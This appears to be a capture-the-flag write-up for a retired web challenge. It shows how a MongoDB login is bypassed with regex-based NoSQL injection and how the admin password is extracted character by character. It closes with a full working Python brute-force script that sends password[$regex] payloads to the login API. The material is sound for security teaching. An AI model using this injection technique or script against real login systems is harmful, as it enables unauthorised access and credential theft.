







# Web - Wild Goose Hunt

## Description
> Outdated alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?

<br>
<br>

## Walkthrough

In this retired challenge we have a web instance and the challenge code.

I looked at the web instance and saw the following login portal.



A login attempt through Burp looks like this.



Now I took a look at the challenge code to get a better idea of what kind of vulnerability we are dealing with here.

Among other things, the file __entrypoint.sh__ was interesting.

```
<SNIP>
# Populate mongodb
mongosh heros --eval "db.createCollection('users')"
mongosh heros --eval 'db.users.insert( { username: "admin", password: "HTB{f4k3_fl4g_f0r_t3st1ng}"} )'
<SNIP>
```

Here we immediately see that we are dealing with __mongoDB__ and our flag is stored as the password of the user `admin`.

So I tried it with __NoSQL Injections__.

I quickly found a login bypass using regular expressions in the query.



Fine, but how do we exfiltrate the flag?

We can also exfiltrate the flag with the help of `[$regex]` by getting our flag char by char and with the help of the boolean return values we know if our next letter is correct.

For illustration:



This gives us a negative return value because the password/flag does not continue with a letter `N` after the `{` character.

With a `t` after the open bracket  we get a positive return value from the application, which tells us that our password starts with `HTB{t`, but not with `HTB{N`.



<br>
<br>

### Solution

Well, I now laboriously got the flag with the Burp intruder char by char until I had it completely bruteforced.

__Flag:__



<br>
<br>

### Bonus: Script

Well, the challenge was solved but a bit inelegant and laborious.

Since I want to solve this kind of tasks faster and more elegantly with some scripting in the future, I found this challenge a good opportunity to write a small script in python to get the flag.

__Script: solve.py__

```python3
#!/usr/bin/python3
from time import sleep
import sys
import requests


def checkArgs():
    if len(sys.argv) != 3:
        print('Usage: ', sys.argv[0], ' ', '<HOST>', '<IP>')
        sys.exit()

def solve(url,port):
    #Define testing charset
    charset = ['\_','\}','\!','\?']
    charset += [chr(i) for i in range(48, 58)]  #0-9
    charset += [chr(i) for i in range(65, 91)]  #A-Z
    charset += [chr(i) for i in range(97, 123)]  #a-z


    flag = 'HTB{'
    while True:
        for i in charset:
            #Prepare request
            url = 'http://' + host + ':' + port + '/api/login'
            baseData = 'username=admin&password[$regex]=' + flag
            data = baseData + str(i) + '.*'
            headers = {'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'}

            #print data & send
            print('Send:',data)
            resp = requests.post(url,data,headers=headers)
            print('resp:',resp.text)

            #Validate Response
            if 'Login Successful' in resp.text:
                flag += str(i).replace('\\','')
                print('Flag:',flag)

                #Check if flag Completed
                if str(i) == '\}':
                    print('======] STOP [======')
                    print('Flag complete:',flag)
                    sys.exit()

                break

            sleep(0.2)
        print('Flag:',flag)

if __name__ == '__main__':
    print('======] Start [======')
    checkArgs()

    host = sys.argv[1]
    port = sys.argv[2]
    solve(host,port)
```
__Flag:__




